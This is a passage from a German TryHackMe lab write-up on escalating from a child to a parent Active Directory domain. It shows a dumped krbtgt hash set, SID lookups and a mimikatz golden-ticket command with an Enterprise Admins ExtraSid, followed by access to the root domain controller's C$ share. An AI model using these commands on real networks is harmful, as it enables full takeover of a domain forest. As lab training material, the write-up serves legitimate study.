Object Security ID   : S-1-5-21-3885271727-2693558621-2658995185-502
Object Relative ID   : 502

Credentials:
  Hash NTLM: 16f9af38fca3ada405386b3b57366082
    ntlm- 0: 16f9af38fca3ada405386b3b57366082
    lm  - 0: 35c7b671efe40860dc078afd2786c902

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 4bf7050f5f09f6d59a8699081d9ed432

* Primary:Kerberos-Newer-Keys *
    Default Salt : ZA.TRYHACKME.LOCkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 9b52d4ffae227e50025574e4347783ee4f4f6c01c110b1ad4c715d0c977558ca
      aes128_hmac       (4096) : c893fd72ddf7fe2ee545f52b8368602f
      des_cbc_md5       (4096) : d904d37f8ab6fed6

* Primary:Kerberos *
    Default Salt : ZA.TRYHACKME.LOCkrbtgt
    Credentials
      des_cbc_md5       : d904d37f8ab6fed6

* Packages *
    NTLM-Strong-NTOWF

* Primary:WDigest *
    01  59ef8461b2d3808973106d3eae741ca6
    02  e7e04d83662aa1f0e23058bf822db70c
    03  738f9c03bbcfe61e0cc1f617a56ee1ca
    04  59ef8461b2d3808973106d3eae741ca6
    05  e7e04d83662aa1f0e23058bf822db70c
    06  cf5bf42182aaaa694a6ca51ab2346e97
    07  59ef8461b2d3808973106d3eae741ca6
    08  7943328089ebb9cd6856cb93e1c8e5eb
    09  7943328089ebb9cd6856cb93e1c8e5eb
    10  703d09859f5291a805f35efce9b2de4d
    11  7ec84ffce154f8c3576c5ccfe270e306
    12  7943328089ebb9cd6856cb93e1c8e5eb
    13  09fcdbe4d28a7e845c4f7df0f5b942aa
    14  7ec84ffce154f8c3576c5ccfe270e306
    15  9f5d5af22548a18694bb8886e2f6a0eb
    16  9f5d5af22548a18694bb8886e2f6a0eb
    17  8d0eff223c176f71093f9d03f8a307df
    18  f5d27cfa462b19d062670445682aef8c
    19  3329d0412509cfe735c064d303dd05dc
    20  7b5fb40e95c2fb16b5b92843158e83af
    21  17a9bb9485f780cbe33945fc581532a2
    22  17a9bb9485f780cbe33945fc581532a2
    23  340490cea65bf6b5927cdf51444ef524
    24  14fbfe8a903667e4901113f484711a62
    25  14fbfe8a903667e4901113f484711a62
    26  f67574e138db44d188d1e11b1f92a9d5
    27  fd72b74747a58338ccfe1bd6d3527445
    28  f9b2e0e39df0a0cbeffa119c03a87b9b
    29  33a0a6986ba90410cbe8b5751a982393

```

Im Prinzip können wir uns jetzt schon ein Golden Ticket erstellen und jede Ressource in der Child Domain erreichen. Wir gehen aber noch weiter und erstellen uns ein Inter-Realm TGT


## Inter-Realm TGTs

Inter-Realm-TGTs werden verwendet, um Zugriff auf Ressourcen in anderen Domänen bereitzustellen. In unserem Fall möchten wir die bidirektionale Vertrauensbeziehung zwischen der child und der parent Domain ausnutzen, um vollen Zugriff auf die parent Domain zu erhalten.

Wie exploiten wir das? Wir können mit mimikatz ein TGT erstellen und diesem Ticket ein bestimmtes Attribut mitgeben. 
Dabei handelt es sich die ExtraSid Sektion der "Kerb_validation_info" Struktur im TGT. Was ist ist diese ExtraSid Sektion? Man kann sie als einen Zeiger verstehen, der auf eine Liste von Kerb_sid_and_attriutes Sektion zeigt, die wiederum eine Liste von SIDs enthält, die im Zusammenhang mit Gruppen in der Domäne stehen, die nicht in der Domain enthalten sind, für den das Ticket erstellt wird.

Da die Parent Domain unserer Child Domain vertraut, werden wir die SID der Enterprise Admin Gruppe als ExtraSID einfügen, für das TGT unseres Child Domain Controller. Die Gruppe der Enterprise Admins gehört zu der Parent Domain und hat Adminrechte über den gesamten Forest. Standardmäßg sieht die SID für diese Gruppe so aus "S-1-5-21-<parentDomain>-519

Bevor wir mit dem exploiten beginnen können, müssen wir zunächst zwei SIDs herausfinden:

   - Die SID des child domain controllers (THMDC), den wir in unserem gefälschten TGT nachahmen werden

   - Die SID der Unternehmensadministratoren in der übergeordneten Domäne, die wir als zusätzliche SID zu unserem gefälschten TGT hinzufügen

Um diese SIDs herauszufinden, können wir die AD-RSAT Powershell-Cmdlets verwenden. Mit dem folgenden Befehl können wir die SID des untergeordneten Domänencontrollers wiederherstellen:


```
Get-ADComputer -Identity "THMDC"


DistinguishedName : CN=THMDC,OU=Domain Controllers,DC=za,DC=tryhackme,DC=loc
DNSHostName       : THMDC.za.tryhackme.loc
Enabled           : True
Name              : THMDC
ObjectClass       : computer
ObjectGUID        : bd651750-782b-4b09-93b4-b5987ec7311b
SamAccountName    : THMDC$
SID               : S-1-5-21-3885271727-2693558621-2658995185-1001
UserPrincipalName :
```
Wir können die SID der Gruppe Enterprise Admins herausfinden, indem wir den folgenden Befehl verwenden, um den parent Domain Controller abzufragen:

```
Get-ADGroup -Identity "Enterprise Admins" -Server thmrootdc.tryhackme.loc


DistinguishedName : CN=Enterprise Admins,CN=Users,DC=tryhackme,DC=loc
GroupCategory     : Security
GroupScope        : Universal
Name              : Enterprise Admins
ObjectClass       : group
ObjectGUID        : a23ae384-16e8-44d5-9b36-8173c4e0e5de
SamAccountName    : Enterprise Admins
SID               : S-1-5-21-3330634377-1326264276-632209373-519
```

Somit haben wir alles was wir brauchen, um das Goldene Ticket zu erstellen.


## Exploiting Domain Trusts


Wir starten wieder mimikatz, um das Goldene Ticket zu erstellen.

   > privilege::debug

   > kerberos::golden /user:Administrator /domain:za.tryhackme.loc /sid:S-1-5-21-3885271727-2693558621-2658995185-1001 /service:krbtgt /aes256:9b52d4ffae227e50025574e4347783ee4f4f6c01c110b1ad4c715d0c977558ca /sids:S-1-5-21-3330634377-1326264276-632209373-519 /ptt

```
User      : Administrator
Domain    : za.tryhackme.loc (ZA)
SID       : S-1-5-21-3885271727-2693558621-2658995185-1001
User Id   : 500
Groups Id : *513 512 520 518 519
Extra SIDs: S-1-5-21-3330634377-1326264276-632209373-519 ;
ServiceKey: 16f9af38fca3ada405386b3b57366082 - rc4_hmac_nt
Service   : krbtgt
Lifetime  : 2/19/2024 10:11:16 PM ; 2/16/2034 10:11:16 PM ; 2/16/2034 10:11:16 PM
-> Ticket : ** Pass The Ticket **

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Golden ticket for 'Administrator @ za.tryhackme.loc' successfully submitted for current session
```

Können wir uns etwas auf THMROOTDC ansehen?

   > dir \\thmrootdc.tryhackme.loc\c$

   ```

    Directory: \\thmrootdc.tryhackme.loc\c$


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        9/15/2018   8:19 AM                PerfLogs
d-r---        3/21/2020   8:31 PM                Program Files
d-----        3/21/2020   8:28 PM                Program Files (x86)
d-----        4/25/2022   5:50 PM                tmp
d-r---        4/27/2022   7:54 AM                Users
d----l        4/25/2022   5:50 PM                vagrant
d-----        4/27/2022   6:29 PM                Windows
-a----         1/4/2022   7:47 AM            103 delete-vagrant-user.ps1
-a----         5/1/2022   8:42 AM             31 root_dns_entries.csv
-a----         5/1/2022   9:07 AM           1767 thm-network-setup-dc.ps1
```

Sieht gut aus. Wir haben Zugriff.

### Damit ist dieser Room erledigt

